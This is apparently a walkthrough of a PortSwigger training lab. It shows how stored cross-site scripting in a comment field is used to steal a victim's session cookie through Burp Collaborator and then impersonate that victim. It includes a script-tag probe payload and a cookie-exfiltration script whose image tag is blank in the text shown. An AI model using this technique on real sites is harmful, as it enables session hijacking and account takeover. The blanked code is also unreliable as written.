





# Lab: Exploiting cross-site scripting to steal cookies

Lab-Link: <https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies>  
Difficulty: PRACTITIONER  
Python script: No script available  
The description below requires Burp Suite Professional to solve this lab!

## Known information

- Application has a XSS vulnerability in the comment feature
- A user views anything that is posted
- The lab can be solved both with and without Burp Collaborator
- Goals:
  - Exfiltrate the victims session cookie
  - Impersonate the victim

## Steps

The first thing is to find out if the application appears to perform any input validation. Can I input tags in general and script tags specifically? For this I post a comment with this content (also tried to inject a tag in the name):

```html
O<b>n</b>e, 
<script>document.write("Two, ")</script>
Three
```

It turns out that while the name is done properly, the comment text itself allows tags and includes them in an unsafe way:



So I can inject a script that generates a `` tag trying to load an image from my Burp Collaborator URL:

```html
<script>
document.write('')
</script>
```



After sending, I check Burp Collaborator and sure enough, the client shows a couple of requests, including a HTTP request containing the session cookie of the victim:



With a cookie editor I change my own cookies information to the values provided:



After reloading the page, the lab updates to


